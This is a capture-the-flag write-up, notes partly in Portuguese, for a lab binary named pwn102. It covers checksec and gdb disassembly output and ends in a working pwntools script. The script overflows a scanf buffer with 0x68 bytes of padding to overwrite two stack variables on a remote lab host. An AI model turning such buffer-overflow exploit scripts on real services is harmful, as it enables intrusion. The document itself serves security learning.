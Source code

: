 Override a variavel
Command file:

```bash

file pwn102.pwn102  

pwn102.pwn102: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2612b87a7803e0a8af101dc39d860554c652d165, 

not stripped


```

Command checksum:
```
checksec --file=pwn102.pwn102
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols        FORTIFY  Fortified       Fortifiable     FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   73 Symbols       No     0               1               pwn102.pwn102

```


Nota: scanf nao faz outbound check 

Nota: ver qual e input do scanf para se for uma string sabemos que nos programas em c e como se finaliza uma String com null byte /00

```
(gdb) disassemble main
Dump of assembler code for function main:
   0x00000000000008fe <+0>:     push   %rbp
   0x00000000000008ff <+1>:     mov    %rsp,%rbp
   0x0000000000000902 <+4>:     sub    $**0x70**,%rsp
   0x0000000000000906 <+8>:     mov    $0x0,%eax
   0x000000000000090b <+13>:    call   0x88a <setup>
   0x0000000000000910 <+18>:    mov    $0x0,%eax
   0x0000000000000915 <+23>:    call   0x8eb <banner>
   0x000000000000091a <+28>:    movl   $0xbadf00d,-0x4(%rbp)
   0x0000000000000921 <+35>:    movl   $0xfee1dead,-0x8(%rbp)
   0x0000000000000928 <+42>:    mov    - **0x8** (%rbp),%edx
   0x000000000000092b <+45>:    mov    - **0x4** (%rbp),%eax
   0x000000000000092e <+48>:    mov    %eax,%esi
   0x0000000000000930 <+50>:    lea    0x212(%rip),%rdi        # 0xb49

```
Hex decimal 

padding is 0x68 bytes long

0x70 - 0x8 = 0x68
					decemial = 104
if tem de ser igual a estes dois valores:

0xc0d3
0xc0ff33


```python 
from pwn import *

  

context.binary = binary = "./pwn102.pwn102"

  

# p32(0xc0ff33) = convert litteleending = \x33\xff\xc0\x00

payload = b"A"* 0x68 + p32(0xc0d3) + p32(0xc0ff33)

  

#p = process()

p= remote("10.10.213.206", 9002)

p.recv()

p.sendline(payload)

p.interactive()

```



